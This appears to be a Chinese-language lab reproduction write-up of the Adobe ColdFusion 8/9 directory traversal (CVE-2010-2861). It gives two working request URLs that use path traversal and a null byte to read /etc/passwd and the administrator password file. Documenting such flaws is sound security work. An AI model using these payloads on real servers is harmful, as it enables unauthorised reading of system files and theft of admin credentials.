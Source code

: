 # Adobe ColdFusion 文件读取漏洞

> 漏洞说明

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。



> 前提条件

版本：Adobe ColdFusion 8、9



> 利用工具



> 漏洞复现

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面

![image-20221218220149023](../img/Adobe ColdFusion_CVE-2010-2861/image-20221218220149023.png)

输入密码admin，开始初始化整个环境

![image-20221218220247072](../img/Adobe ColdFusion_CVE-2010-2861/image-20221218220247072.png)

访问http://192.168.40.77:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en读取/etc/passwd文件

![image-20221218220835314](../img/Adobe ColdFusion_CVE-2010-2861/image-20221218220835314.png)

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en 即可读取后台管理员密码

![image-20221218220957439](../img/Adobe ColdFusion_CVE-2010-2861/image-20221218220957439.png)

